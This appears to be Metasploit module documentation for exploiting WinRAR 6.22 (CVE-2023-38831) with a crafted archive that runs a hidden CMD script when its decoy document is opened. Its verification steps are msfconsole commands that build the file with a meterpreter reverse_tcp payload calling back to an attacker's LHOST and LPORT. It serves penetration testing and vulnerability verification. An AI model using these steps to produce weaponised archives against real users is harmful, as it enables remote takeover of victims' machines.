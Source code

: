 ## Vulnerable Application
This module exploits a vulnerability in WinRAR 6.22 (CVE-2023-38831). When a user opens a crafted RAR file and its embedded document, the decoy document is executed, leading to code execution.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/winrar_cve_2023_38831`
1. Do: `set INPUT_FILE /path/to/decoy/file`
1. Do: `set OUTPUT_FILE /path/to/output/file`
1. Do: `set PAYLOAD windows/meterpreter/reverse_tcp`
1. Do: `set LHOST <local IP>`
1. Do: `set LPORT <local port>`
1. Do: `exploit`

Target

1. Install WinRAR 6.22
1. Open OUTPUT_FILE
1. Click on INPUT_FILE withinin archive
1. Enjoy Shell

## Scenarios

### Windows
The exploit creates a RAR file that contains a decoy document and a CMD script. The CMD script is executed when the decoy document is opened, leading to code execution on the target system.

## Options

### INPUT_FILE
Path to the decoy file (PDF, JPG, PNG, etc.) that will be embedded in the crafted RAR file.

### OUTPUT_FILE
The filename for the crafted RAR file that will be generated.

## References 

[CVE-2023-38831](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-38831)
[Group-IB Research](https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/)
[Analysis](https://b1tg.github.io/post/cve-2023-38831-winrar-analysis/)